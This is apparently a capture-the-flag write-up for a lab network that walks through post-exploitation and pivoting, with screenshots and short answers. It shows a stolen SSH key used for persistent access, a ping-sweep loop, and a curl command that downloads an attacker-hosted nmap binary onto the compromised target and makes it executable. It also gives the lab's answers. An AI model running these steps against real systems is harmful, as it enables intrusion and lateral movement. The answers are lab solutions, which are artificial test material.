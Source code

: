 <img width="664" height="284" alt="image" src="https://github.com/user-attachments/assets/deaabf28-23ff-460d-a680-15e95ee75589" />
<img width="385" height="334" alt="image" src="https://github.com/user-attachments/assets/b563f43f-4411-4162-bd5d-5eca7559093f" />

   Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command chmod 600 KEY_NAME (substituting in the name of the key) to obtain persistent access to the box.

   We have everything we need for now. Let's move on to the next section: Pivoting!

<img width="1076" height="919" alt="image" src="https://github.com/user-attachments/assets/a03cf936-d639-4454-91a7-a31ac40b5de4" />

  # How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
       for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done


  # On Kali (inside the directory containing your Nmap binary):
        sudo python3 -m http.server 80
        
<img width="517" height="178" alt="image" src="https://github.com/user-attachments/assets/1ded717e-d2aa-44cc-a045-dac33aa03cb3" />


# Then, on the target:    
    curl 10.250.180.4/nmap-abpollard -o /tmp/nmap-abpollard && chmod +x /tmp/nmap-abpollard

<img width="820" height="187" alt="image" src="https://github.com/user-attachments/assets/3664e48a-684c-4f7e-bddc-af62400d758f" />
<img width="807" height="82" alt="image" src="https://github.com/user-attachments/assets/da7ae061-b23c-47c9-b847-c968993b3181" />

# Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?
      2

# In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)
      100,150

<img width="725" height="316" alt="image" src="https://github.com/user-attachments/assets/78482669-0c46-43ca-8645-cf5a46c8ed1c" />

# Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?
    150 
